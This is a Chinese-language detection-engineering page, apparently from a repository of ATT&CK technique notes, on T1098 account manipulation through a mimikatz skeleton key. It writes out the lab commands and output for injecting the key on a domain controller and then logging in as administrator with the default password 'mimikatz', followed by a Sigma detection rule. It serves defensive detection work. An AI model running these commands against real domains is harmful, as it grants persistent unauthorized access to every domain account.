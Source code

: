 # T1098-Win-万能密码

## 来自ATT&CK的描述

帐户操作可以帮助攻击者维持在目标组织环境中对凭据或某些权限级别的访问权限。账户操作可能包括修改权限，修改凭据，添加或更改权限组，修改帐户设置或修改执行身份验证等方式。为了创建或操纵帐户，攻击者必须已经对系统或域具有足够的权限。

## 测试案例

使用万能密码（skeleton key），可以对域内权限进行持久化操作。

## 检测日志

Windows 安全日志

## 测试复现

### 步骤1（PC上执行，普通域用户权限）

```dos
C:\Users\xiaomi>dir \\dc.xiaomi.org\c$  
拒绝访问。

C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ "admin.098" /user:xiaomi\administra
tor
命令成功完成。

C:\Users\xiaomi>dir \\dc.xiaomi.org\c$
 驱动器 \\dc.xiaomi.org\c$ 中的卷没有标签。
 卷的序列号是 50E9-7D0C

 \\dc.xiaomi.org\c$ 的目录

2009/07/14  11:20    <DIR>          PerfLogs
2020/03/23  15:24    <DIR>          Program Files
2020/03/23  15:24    <DIR>          Program Files (x86)
2020/03/23  14:47    <DIR>          Users
2020/03/23  15:30    <DIR>          Windows
               0 个文件              0 字节
               5 个目录 32,728,838,144 可用字节

C:\Users\xiaomi>net use
会记录新的网络连接。


状态       本地        远程                      网络

-------------------------------------------------------------------------------
OK                     \\dc.xiaomi.org\ipc$      Microsoft Windows Network
命令成功完成。


C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ /del /y
\\dc.xiaomi.org\ipc$ 已经删除。


C:\Users\xiaomi>net use
会记录新的网络连接。

列表是空的。
```

### 步骤2（DC上执行，管理员权限）

```dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>mimikatz.exe "privilege::debug
" "misc::skeleton" exit

  .#####.   mimikatz 2.1.1 (x64) built on Apr  9 2017 23:24:20
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK

mimikatz(commandline) # exit
Bye!
```

**系统提示Skeleton Key已经注入成功。此时，会在域内的所有账户中添加一个Skeleton key，其密码默认为“mimikatz”。接下来可以以域内任何用户的身份，配合该Skeleton Key，进行域内身份授权验证了。**

### 步骤3（PC上执行，普通域用户权限）

```dos
C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ "mimikatz" /user:xiaomi\administrat
or
命令成功完成。


C:\Users\xiaomi>dir \\dc.xiaomi.org\c$
 驱动器 \\dc.xiaomi.org\c$ 中的卷没有标签。
 卷的序列号是 50E9-7D0C

 \\dc.xiaomi.org\c$ 的目录

2009/07/14  11:20    <DIR>          PerfLogs
2020/03/23  15:24    <DIR>          Program Files
2020/03/23  15:24    <DIR>          Program Files (x86)
2020/03/23  14:47    <DIR>          Users
2020/03/23  15:30    <DIR>          Windows
               0 个文件              0 字节
               5 个目录 32,758,198,272 可用字节

```

## 测试留痕

windows安全事件ID，多事件关联分析

## 检测规则/思路

### Sigma规则

```yml
title: Windows 万能密码
description: Windows server 2008 R2\win 7
references: https://0xsp.com/ad-attack-or-defense/ad-ttps-list
tags: T1098
status: 测试阶段
author: 12306Bro
logsource:
    product: windows
    service: security
detection:
    selection1:
        EventID: 4673  #调用权限的服务
    selection2:
        EventID: 4611  #受信任的登录进程已在本地安全机构注册
    selection3:
        EventID: 4688  #新进程创建
    selection4:
        EventID: 4689  #退出进程
    condition: all of them
    timeframe: last 5s
level: medium
```

### 建议

以上规则存在一定程度的不稳定性，谨慎使用！

## 参考推荐

MITRE-ATT&CK-T1098

<https://attack.mitre.org/techniques/T1098/>
